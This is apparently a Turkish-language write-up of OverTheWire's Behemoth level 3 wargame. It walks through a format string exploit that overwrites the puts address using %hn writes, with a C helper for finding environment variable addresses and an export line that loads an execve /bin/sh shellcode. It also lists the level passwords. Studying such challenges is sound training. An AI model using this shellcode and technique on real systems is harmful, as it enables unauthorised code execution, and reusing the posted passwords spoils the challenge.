





# Behemoth: Level 3 Writeup

    ssh behemoth3@behemoth.labs.overthewire.org -p 2221
    password: nieteidiel



Programımızı `gdb` ile açıp incelediğimiz zaman aklımıza hemen burda bir format string zafiyeti olabileceği kuşkusu düşüyor. Vakit kaybetmeden hemen test ediyoruz bakalım cidden var mı böyle bir zafiyet...



Evet kuşkulanmakta yanılmamışız. Nur topu gibi bir format string zafiyetimiz oldu :) Zafiyeti sömürmek için ihtiyacımız olan `puts` func adresinide öğrendik.

Ancak burda bilmemiz gereken bir husus var. Eğer yazmak istediğimiz adresin decimal karşılığı çok büyükse o zaman bunu iki parça halinde yazmamız gerekecek. Yani ilk önce `0x80497ac` adresini `\xac\x97\x04\x08` ve `\xae\x97\x04\x08` olarak iki parçaya ayıracaz. Daha sonra stack alanına
yazacağımız shellcode adresinide decimal olarak iki parça halinde yazacağız. Tabi onunda bir püf noktası var öyle kafamıza göre yazamayız. Mesela adresimiz `0xffffdecb` olsun. Öncelikle düşük adres olan `0xdecb`'yi alıyoruz ve öncesinde 8 byte yazdığımız için bundan `0x8` çıkararak decimal karşılığını buluyoruz. Daha sonra yüksek adresten düşük adresi çıkararak onunda decimal karşılığını buluyoruz (`0xffff - 0xdecb = 8500` gibi)



Yazdığımız değerler ilk sırada yer aldığında `%1$n%2$n` kullanıyorduk ancak bizim durumumuzda yüksek bir değeri iki parça halinde yazmamız gerektiği ve bununda daha sonra birleşmesi gerektiği için `%1$hn%2$hn` şeklinde yazacağız. Kısaca son halinin  `%57027%1$hn%8500%2$hn` gibi olması gerekecek.

Bu kısım da anlaşıldıysa eğer shellcode'u ortam değişkeni olarak ekleyip adresini öğrenelim ve payloadımızı tamamlayalım


```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```


```bash
export SHELL=$(python -c 'print "\x90"*32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*32 ')
```






Ve gördüğümüz üzere shellcode başarıyla görevini yerine getirdi.

`behemoth4:ietheishei`
